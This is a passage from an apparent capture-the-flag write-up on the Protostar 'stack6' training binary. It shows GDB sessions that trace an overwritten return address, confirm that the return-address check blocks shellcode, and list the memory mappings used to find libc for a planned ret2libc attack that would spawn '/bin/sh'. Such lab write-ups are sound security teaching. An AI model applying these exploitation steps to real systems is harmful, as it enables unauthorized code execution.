 ```
(gdb) i r $eax
	eax            0xbffffc54	-1073742764
```

At this point, EAX is equal to our return address (in this case, our EIP overwrite).

Now if we step over one more instruction with 'ni', we should see our new EAX now equals the restricted return value:

```
(gdb) ni
0x080484bd	17	in stack6/stack6.c
(gdb) i r $eax
eax            0xbf000000	-1090519040
```

Stepping over again, we hit out fail condition and the process errors out:

```
(gdb) c
Continuing.
bzzzt (0xbffffc54)

Program exited with code 01.
```

Now we have proven that we aren't able to return into our payload and jump to some user defined shellcode, we know we need a different attack vector. This is where the 'ret2libc / ROP' hints becomes relevant.

There are a couple of things we need for a ret2libc attack, again, if you haven't done one before, check out the IppSec video or other various write ups to help piece together the puzzle. Effectively, we want to find a system() call, a '/bin/sh' string and an exit() call within the libc library that has been compiled into the binary.

Luckily, we can get all the information we require directly from GDB. First off we want to find the libc library that has been compiled into the binary:

```
(gdb) info proc mappings
process 2647
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
    0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
    0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
    0xb7e96000 0xb7e97000     0x1000          0        
    0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
    0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
    0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
    0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
    0xb7fd9000 0xb7fdc000     0x3000          0        
    0xb7fe0000 0xb7fe2000     0x2000          0        
    0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
    0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
    0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
    0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
    0xbffeb000 0xc0000000    0x15000          0           [stack]
```
